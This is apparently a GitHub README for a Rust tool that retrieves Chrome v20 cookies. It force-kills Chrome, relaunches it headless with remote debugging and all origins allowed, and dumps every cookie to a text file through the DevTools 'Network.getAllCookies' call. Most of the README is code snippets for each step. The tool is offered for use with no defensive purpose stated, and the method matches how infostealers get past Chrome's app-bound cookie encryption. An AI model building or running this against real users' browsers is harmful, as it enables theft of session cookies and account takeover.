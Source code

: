 ## decrypt_v20_chrome_cookies
🚀 This repository **is a simple Rust project** for retrieving **Chrome v20 cookies.**

## 📌 Features
- Retrieve cookies v20 from **Chrome Debugger**
- **Simple and lightweight** Rust implementation
- **Easy** to use

## 🛠️ How It Works
This project uses **Rust** to retrieve **Chrome v20 cookies** using chrome debugging. Here are the main steps:
- **Checks if the program ```'chrome.exe'``` is running**: If it does, it closes it automatically.
```rust
fn verify_chrome() {
    let verify_chrome = Command::new("cmd.exe")
            .arg("/C")
            .arg("tasklist")
            .output()
            .unwrap();

    let result1 = String::from_utf8_lossy(&verify_chrome.stdout);

    if result1.contains("chrome.exe") {
        let _ = Command::new("taskkill")
                .arg("/F")
                .arg("/IM")
                .arg("chrome.exe")
                .output()
                .unwrap();


        thread::sleep(Duration::from_secs(2)); 
    }
}
```

- **Launches the Chrome Debugger**: Start Chrome in headless mode with remote debugging enabled.
```rust
let _ = Command::new(path_chrome)
            .arg(format!("--remote-debugging-port={}", port_debugging))
            .arg("--remote-allow-origins=*")
            .arg("--headless")
            .arg(format!("--user-data-dir={}", path_user))
            .stdout(Stdio::null()) 
            .stderr(Stdio::null())
            .spawn()?;
```

- **Connect to Debugging Interface**: Use ```reqwest``` to retrieve the ```webSocketDebuggerUrl``` for WebSocket communication.
```rust
let resp = reqwest::blocking::get(format!("http://localhost:{}/json", port_debugging))?;
let ws_url = json[0]["webSocketDebuggerUrl"].as_str().unwrap().to_string();
```

- **Retrieve Cookies**: Send a command to fetch all cookies via WebSocket.
```rust
let (mut socket, _) = connect(ws_url)?;
let data = serde_json::json!({ "id": 1, "method": "Network.getAllCookies" });
socket.send(Message::Text(data.to_string()))?;
```

- **Store Cookies**: Write the retrieved cookies to ```cookies.txt```

- **Clean Up**: Terminate the Chrome process to clean up resources.
```rust
let _ = Command::new("taskkill")
            .arg("/F")
            .arg("/IM")
            .arg("chrome.exe")
            .output()
            .unwrap();
```

## 📥 Installation
Make sure you have **Rust** installed. If not, you can install it via this website [rust](https://www.rust-lang.org/fr/tools/install):       
```
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
```
Then, clone this repository and build the project:
```
git clone https://github.com/exiton0x/decrypt_v20_chrome_cookies
cd decrypt_v20_chrome_cookies
cargo build --release
```

## 🚀 Usage
```
cargo run
```
Or use the compiled binary:
```
target/release/
```

## 🎉 Acknowledgments
- Inspired by various open-source **Chrome cookie** retrieval projects.

